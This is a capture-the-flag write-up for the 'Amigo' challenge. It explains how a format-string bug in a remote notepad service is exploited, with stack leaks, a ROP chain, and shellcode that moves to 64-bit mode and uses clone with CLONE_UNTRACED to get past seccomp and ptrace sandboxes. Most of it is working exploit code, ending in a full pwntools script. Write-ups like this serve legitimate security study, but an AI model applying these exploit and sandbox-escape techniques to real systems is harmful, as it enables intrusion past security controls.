


# Amigo

This pwn was quite challenging and no one solved it on site. I completed it after the CTF.
The challenge was without a binary, you only get a host and port:
```
nc amigo.hackable.software 1337

[+] Secure Notepad v0.7:
[+] 1. Write note
[+] 2. Display note
[+] 3. Exit
:> 1
Type in your note (max len: 64 characters): %p%p%p%p%p%p%p
[+] Note saved
[+] Secure Notepad v0.7:
[+] 1. Write note
[+] 2. Display note
[+] 3. Exit
:> 2
[+] Your note:
====================
0xf0x565ea4ad0x565ea4bd0x565ea4c50xffe8f4380x565ea5b70xffe8f43c

====================

[+] Secure Notepad v0.7:
[+] 1. Write note
[+] 2. Display note
[+] 3. Exit
:> 3
[+] Bye
``` 

So we have a 32bit binary with a format-string bug, the first thing I did was to dump the stack. 
```
['0x5',
 '0x5660045d',
 '0x5660046d',
 '0x56600475',
 '0x56600567',
 '0xffd9ba48L',
 '0xffd9ba4cL', => ptr to my buffer
 '0x56603040',
 '0x56603040',
 '0xf7796cc0L', => libc ptr
 '0x0',
 '0x1',
 '0x24333125', => my controlled data '$31%p'
 '0xa70',
 '0x0',
 '0x0',
 '0x0',
 '0x0',
 '0x0',
 '0x0',
 '0x0',
 '0x0',
 '0x0',
 '0x0',
 '0x0',
 '0x0',
 '0x0',
 '0x0',
 '0x8910ce00L', => stack cookie
 '0x1',
 '0x9',
 '0x0',
 '0x56602f78',
 '0x0',
 '0x0',
 '0xffd9bae8L'
 '0x5660019e',  => return address
 '0x8000',
 '0xf7796000L',
 '0xf7794244L',
 '0xf75fc0ecL',
 '0x1',
 '0x56602f78',
 '0x1',
 '0x8910ce00L',
 '0x1',
 '0xffd9bb94L',
 '0xffd9bb9cL',
 '0x0',
 '0xf7796000L',
 '0xffd9bb00L']
```

After connecting to the server a couple of times it is clear that the binary is compiled with PIE and the remote system has ASLR.
With a bit of trial and error I identified the addresses of the stack, libc and main binary.

I wrote a bit of code that can leak libc using DynELF from pwn tools:

```py
def menu():
    print r.recvuntil(':> ')

def write_note(p):
    menu()
    r.send('1\n')
    print r.recvuntil('Type in your note (max len: 64 characters): ')
    if p[-1:] not in '\x00\n\r':
        p += '\n'
    r.send(p)

def read_note():
    menu()
    r.send('2\n')
    ret = r.recvuntil('\n\n====================\n')
    ret = ret.split('====================\n')[1]
    ret = ret[:-2]
    
    return ret

def exec_fmt(p):
    write_note(p)
    return read_note()

def leak(addr):
    # argument 15 is the location of p32(addr)
    payload = "%15$s.AA"+p32(addr)
    resp = exec_fmt(payload)
    idx = resp.index('.AA')
    resp = resp[:idx]
    ret = resp + "\x00"

    return ret

def leak_smart(addr):
    c = ''
    size = 4
    if addr & 0xff == 0:
        return '\x7f'

    while len(c) < size:
        d = leak(addr)
        c += d
        addr += len(d)

    return c

main_bin_addr = int(exec_fmt('%2$p'), 16)
elf = DynELF(leak_smart, main_bin_addr)
print elf.lookup('system', 'libc')
print elf.lookup('write', 'libc')
```

It was the first time I used DynELF but it worked quite well, automatically downloading the libc binary.
I found out that leaking addresses with null is problematic, I hardwired addresses with null LSB to be 0x7f so it would find '\x7fELF' magic.

Now that I have libc addresses I'll try to get code execution. I used the pwntools's ```fmtstr_payload``` to write to the stack. 
Initially I used an infinite loop gadget in libc to find the right offset in the stack of the return address. Then, I wrote a small rop ```system("/bin/sh")```.
Unfortunately I got this:
```
[-] PID: 2 - seccomp violation
```
Which means there's a sandbox. I decided to dump the binary by writing to stdout, using this rop chain ```write(1, binary_address, 4096)```.
Since the binary is not continuous in memory I wrote a script for dumping each page separately.

I'm a windows guy, memory dumped PE binaries on windows requires a few fixes so IDA would parse it correctly. However, the challenge was a linux challenge, so I wasted lots of time trying to reconstruct the dumped binary. Finally I just threw the binary to IDA as raw binary and started to disassemble the main binary - it works reasonably well (the only problem was fixing the imports, which I did manually as I read the disassembled code).

I found that there are two sandboxes, one is a ptrace over our binary which filters syscalls and the other is seccomp-bpf syscall filter.
I've extracted the bpf filters from the binary and used ```scmp_bpf_disasm``` from [libseccomp](https://github.com/seccomp/libseccomp/) to create a dot file and convert it to png.



The seccomp-bpf filtering is pretty rough, and pretty specific. It doesn't allow any interesting syscalls, using a whitelist. These are the permitted syscalls:
* 3 - read
* 4 - write
* 37 - kill - but only to my PID (with only certain signals)
* 45 - brk
* 56 - mpx (unimplemented)
* 140 - lseek
* 146 - writev
* 174 - rt_sigaction
* 175 - rt_sigprocmask
* 192 - mmap2
* 197 - fstat64
* 252 - exit_group
* 257 - remap_file_pages - arg0 has to be 0xffffffffffffff9e, arg2 has to be 0x1234567800000000

 After a bit of tinkering I remembered that syscalls on 64bit linux are numbered differently than syscalls on 32bit linux - which may enable us to do some interesting syscalls we are currently lacking. On linux moving from 32 to 64 is as simple as changing the cs to 0x33. that is easily accomplished by retf:
```s
    push 0x33
    jmp addr

back:
    retf

addr:
    call back

/* 64 bit code here */
```

When moving to 64bit the syscall lists looks as follows:
* 3 - close
* 4 - stat
* 37 - alarm
* 45 - recvfrom
* 56 - **clone**
* 140 - getpriority
* 146 - sched_get_priority_max
* 174 - create_module
* 175 - init_module
* 192 - lgetxattr
* 197 - removexattr
* 252 - ioprio_get
* 257 - **openat** - arg0 has to be 0xffffffffffffff9e (AT_FDCWD), arg2 has to be 0x1234567800000000

Now, using the `openat` syscall, we can open files!

The new plan is as follows:
1. change to 64 bit 
2. use openat syscall (complying with all the restrictions)
3. change back to 32 bit
4. use the read & write syscalls to output the flag
5. profit

Using 010 editor templates I found that the main binary has an rwx section at offset 0x41410000 from binary base (on the second day the organizers hinted to look at the elf segments).
The author of the challenge left it for us to save some time.


Also I found a stack overflow in the write note option, so I could leak the stack-cookie and use a small rop chain ```read(0, main_binary+0x41410000, 4096)``` to get my shellcode quickly into the rwx section (instead of writing it one dword at a time with the format string bug)

But again, we get this error:
```
[-] Invalid syscall: 257
```

This is the second sandbox done by our parent process with ptrace. Reversing a bit the logic is follows:
```
if there's a seccomp event:
    validate_seccomp_event(...)
elif WSTOPSIG(status) == 0x85:
    validate_syscall(...)
```

validate_seccomp_event looks something like:
```c
unsigned int __cdecl validate_seccomp_event(int ap)
{
  unsigned __int32 v1; // edi@3
  unsigned int result; // eax@4
  pt_regs data; // [sp+28h] [bp-64h]@1
  void *v4; // [sp+6Ch] [bp-20h]@1

  v4 = off_14;
  // PTRACE_GETREGS 
  if ( ptrace(12, ap, 0, &data) == -1 )
    debug_log(aPt_getregs);
  if ( data.orig_ax != 56 )
    log_fatal(aIncorrectSysca);
  v1 = data.sp;
  if ( v1 != getpid_0() )
  {
    data.orig_ax = -1;
    // PTRACE_SETREGS
    ptrace(13, ap, 0, &data);
    log_fatal(aIncorrectRegis);
  }
  result = (unsigned int)off_14 ^ (unsigned int)v4;
  if ( off_14 != v4 )
    call___stack_chk_fail();
  return result;
}
```
Our parent will kill us if we're not executing clone/mpx syscall or sp is not our parent's pid.
Finding our parents pid was tricky since the ```getppid``` syscall is blocked and ```getpid``` set to return hardcoded 1337.
But if you recall from previous error messages our pid is 2, so our parents pid is 1.

validate_syscall function looks something like this:
```c
switch (nr_syscall) {
    case -1:
    case 999:
    case __NR_write:
    case __NR_writev:
    case __NR_read:
    case __NR_fstat64:
    case __NR__llseek:
    case __NR_exit_group:
    case __NR_rt_sigprocmask:
    case __NR_rt_sigaction:  
    case __NR_mmap2:         
    case __NR_kill:          
    case __NR_mpx:           
    case __NR_open:          
    case __NR_getpid:        
    case __NR_gettid:        
    case __NR_tgkill:        
    case __NR_personality:   
    case __NR_brk:           
        terminate();
    default:
        break;
    }
}
```

I started banging my head on the table until I figured how to bypass the check - using the clone syscall to create a child process with CLONE_UNTRACED which will not be traced by ptrace, it could open and output the flag.

putting everything together again:
1. rop chain read(0, main_binary+0x41410000, 4096)
2. change to 64 bit 
3. clone with CLONE_UNTRACED, parent to infinite loop
4. use openat syscall (complying with all the restrictions)
5. change back to 32 bit
6. use the read & write syscalls to output the flag
7. profit

After all that work we get the flag.

```py
from pwn import *

HOST = 'amigo.hacking.center'
PORT = 1337

def menu():
    r.recvuntil(':> ')

def write_note(p):
    menu()
    r.send('1\n')
    r.recvuntil('Type in your note (max len: 64 characters): ')
    if p[-1:] not in '\x00\n\r':
        p += '\n'
    r.send(p)

def read_note():
    menu()
    r.send('2\n')
    ret = r.recvuntil('\n\n====================\n', timeout=1)
    ret = ret.split('====================\n')[1]
    ret = ret[:-2]
    
    return ret

def exec_fmt(p):
    write_note(p)
    return read_note()

def leak(addr):
    payload = "%15$s.AA"+p32(addr)
    resp = exec_fmt(payload)
    idx = resp.index('.AA')
    resp = resp[:idx]
    ret = resp + "\x00"

    return ret

r = remote(HOST, PORT)

libc_offset = 0x001B4CC0
libc_addr = int(exec_fmt('%10$p'), 16)
libc_base = libc_addr - libc_offset

main_bin_addr = int(exec_fmt('%2$p'), 16)
main_bin_offset = 0x5663b45d-0x56639000

main_base = main_bin_addr - main_bin_offset

read_addr = libc_base + 0xd6b40 # read offset

print 'libc base = ', hex(libc_base)

stack_cookie = int(exec_fmt('%29$p'), 16)


print "stack cookie = %08x" % (stack_cookie, )
print "main_base = %08x" % (main_base, )

main_base_magic = main_base + 0x41410000

rop = 'A' * 64
rop += p32(stack_cookie)
rop += p32(0xdeadbabe) * 7

# exec code shellcode 
rop += p32(read_addr) 
rop += p32(main_base_magic) # ret
rop += p32(0)
rop += p32(main_base_magic)
rop += p32(1000)

write_note(rop)

r.send('3\n')

print r.recvuntil('Bye\n')

sc = '''
    push 0x33
    jmp addr

back:
    retf

addr:
    call back

'''

sc = asm(sc)

sc64 = ''
sc64 += '''
    mov r9, 0x0313373133731337
    mov r10, 0
    mov rdx, 0
    mov rsi, rsp
    /* CLONE_FS | CLONE_FILES */
    mov rdi, 0x00800600
    mov rsi, rsp

    mov r8, rsp
    mov rsp, 1
    mov rax, 56
    syscall 
    
    mov rsp, r8

    /* if child go to open */
    cmp rax, 0
    je open

inf:
    jmp inf

open:
    /* bypass defence */
    mov r9, 0x0313373133731337

    /* zero mode & flags */
    mov rdx, 0x1234567800000000
    xor r10, r10

    /* push /flag */
    mov rax, 0x67616c662f
    push rax

    mov rsi, rsp

    mov rdi, -100 /* fd */

    /*mov rax, 257  openat */
    mov rax, 257/* openat */
    syscall

    jmp i386

ret386:
    pop rcx
    /* fix the stack to retf */
    mov dword ptr [rsp], ecx
    mov dword ptr [rsp+0x4], 0x23
    retf

i386:
    call ret386
'''

sc += asm(sc64, arch='amd64')

sc2 = '''
    /* memset the stack */
    mov edi, esp
    mov ecx, 0x40
    xor eax, eax
    rep stosb

  /* call read(3, 'esp', 0x40) */
    push (SYS_read) /* 3 */
    pop eax
    push 3
    pop ebx
    mov ecx, esp
    push 0x40
    pop edx
    int 0x80

    /* call write(1, 'esp', 0x40) */
    push (SYS_write) /* 4 */
    pop eax
    push 1
    pop ebx
    mov ecx, esp
    push 0x40
    pop edx
    int 0x80

 '''
sc += asm(sc2)

sc += '\xeb\xfe'

# sending the shellcode, written to the magic section and execute
r.send(sc + '\n')

# recv the flag
data = r.recv(4096)
data += r.recv(4096)

print data.strip('\x00')
```